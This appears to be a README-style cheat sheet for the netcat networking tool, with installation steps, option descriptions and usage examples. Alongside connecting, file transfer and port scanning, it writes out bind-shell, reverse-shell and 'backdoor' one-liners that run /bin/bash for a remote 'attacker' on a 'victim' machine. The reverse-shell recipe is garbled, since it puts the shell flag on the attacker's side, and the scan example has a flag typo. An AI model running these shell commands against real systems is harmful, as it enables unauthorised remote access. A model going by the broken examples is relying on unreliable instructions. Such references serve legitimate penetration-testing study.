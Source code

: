 # Cybersecurity Utility - netcat

## Table of Contents
- [Information](#information)
- [Setup](#setup)
- [Documentation](#documentation)
- [Resources](#resources)
- [References](#references)
- [Remarks](#remarks)
- [Notes](#notes)

## Information

+ Utility Type: Network Debugging and Exploration
+ Tool Area of Efficiency : Offensive (Red Team), Defensive (Blue Team)
+ Penetration Testing stage : Reconnaissance
+ Package Name: netcat
+ Repository URL: 

### DESCRIPTION

```
netcat - also known as 'nc', is a command-line utility for Linux used by network administrators and security experts that can read and write data across network connections using the TCP and UDP protocol.

It is designed to be a reliable "backend" tool used directly or driven by other programs via scripts.

nc is also a feature-rich network debugging and exploration tool.
```

## Setup

### Pre-Requisites


### Dependencies


### Obtaining
- Using Package Manager
	- Debian-based (apt)
		```console
		sudo apt(-get) install netcat
		```
	- Arch-based (pacman)
		```console
		sudo pacman -S netcat
		```

## Documentation

### Synopsis/Syntax

```console
nc [{options} [arguments]...] [target-ip] [port-number]
```

### Parameters
+ -e [cmd] : Executes a command when connection is established; typicall is a shell (i.e. /bin/bash) for backdoor connections
+ -h : Display this help menu
+ -l : Start listener/server mode to connect from a remote system
+ -n : Do not do any DNS or service lookups on any specific addresses, hostnames or ports; No DNS - Only using IP Addresses
+ -p [port-number] : Set a port number to listen through; Try to keep it in the well known ports (< 1000)
+ -v : Verbose; Display detailed information of the standard output
+ -w [timeout] : Set connections to timeout after [timeout] seconds if cannot be established or are idle
+ -z : Specifies that nc should only scan for listening daemons, without sending any data to them; Cannot use with *-l*

### Usage
- Connect to a target on port 21
	```console
	nc 10.0.2.5 21
	```
    
- Listening for inbound connections on some port (Run a simple server)
    ```console
    nc -l -p [port-number]
    ```
- Connect to a target machine on port 80
    ```console
    nc [target-machine-ip] 80
    ```
    
- Connect a remote target/victim system (Bind Shell)
	- On the target/victim system
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```
	- On the attacker system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```

- Connect from a remote target/victim system (Reverse Shell)
	- Connect to Listener (Attacker) system
		+ On the target/victim system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```
	- Start Listening Mode 
		+ On the attacker system
		+ To wait for the victim/target to activate a payload that will connect to this listener
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```

- To transfer a file 
    - Client (Listening) to download/receive the file
        ```console
        nc -l -p [port-to-listen] > [file-to-receive]
        ```
    - Server (Sending) to upload the file
        ```console
        nc -w [seconds-to-timeout] [server IP] [port-number] < [file-name]
        ```
        
- TCP Port Scanner
	```console
	nc -v -n -z -wl [domain-name or IP address] [start_port_number-end_port_number]
	```

- Backdoor
    - Put/Generate a backdoor on target machine that executes the bash shell on connection (bind shell)
        + Target listens at the specified port number
        ```console
        nc -l -p [port-number] -e /bin/bash
        ```
    - Connect to the target machine
        ```console
        nc [target-machine-IP] [port-number]
        ```

## Resources

## References
+ [computerhope - nc](https://www.computerhope.com/unix/nc.htm)

## Remarks

## Notes
